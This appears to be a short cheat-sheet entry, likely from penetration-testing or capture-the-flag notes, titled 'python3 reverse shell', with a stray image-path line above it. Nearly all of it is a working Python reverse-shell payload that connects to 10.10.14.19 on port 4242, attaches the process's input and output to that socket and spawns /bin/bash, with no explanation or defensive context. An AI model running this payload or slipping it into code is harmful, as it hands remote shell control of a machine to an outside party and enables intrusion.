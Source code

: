 # python3 reverse shell

```text
import sys,socket,os,pty
s=socket.socket()
s.connect(('10.10.14.19',int('4242')))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
```

